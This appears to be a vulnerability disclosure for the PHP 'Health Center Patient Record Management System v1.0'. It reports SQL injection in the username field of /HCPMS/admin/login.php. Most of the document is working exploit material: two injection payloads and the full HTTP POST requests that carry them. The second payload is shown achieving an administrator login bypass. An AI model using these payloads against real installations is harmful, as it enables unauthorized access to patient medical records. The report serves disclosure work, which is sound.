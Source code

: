 # Health Center Patient Record Management System v1.0 has SQL injection

BUG_Author: tangtangtang123456

Website source address：https://www.sourcecodester.com/php/11058/health-center-patient-record-management-system.html

Vulnerability File: /HCPMS/admin/login.php

POST parameter 'MULTIPART username', exists SQL injection vulnerability

Payload1:a' OR NOT 555=555#

```
POST /HCPMS/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAqz3u58hZsnGERpB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=vrefpdn15a3e5ikfvutedkl3mp
Connection: close

------WebKitFormBoundaryAqz3u58hZsnGERpB
Content-Disposition: form-data; name="username"

a' OR NOT 555=555#
------WebKitFormBoundaryAqz3u58hZsnGERpB
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryAqz3u58hZsnGERpB
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryAqz3u58hZsnGERpB--
```

Invalid username or password

![image](https://github.com/tangtangtang123456/bug_report/blob/main/pictures/err.png)

Payload2:a' OR NOT 555=556#

```
POST /HCPMS/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi9hja0imnN6Wx87P
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=vrefpdn15a3e5ikfvutedkl3mp
Connection: close

------WebKitFormBoundaryi9hja0imnN6Wx87P
Content-Disposition: form-data; name="username"

a' OR NOT 555=556#
------WebKitFormBoundaryi9hja0imnN6Wx87P
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryi9hja0imnN6Wx87P
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryi9hja0imnN6Wx87P--
```

Successfully logged in to the administrator background

![image](https://github.com/tangtangtang123456/bug_report/blob/main/pictures/right.png)
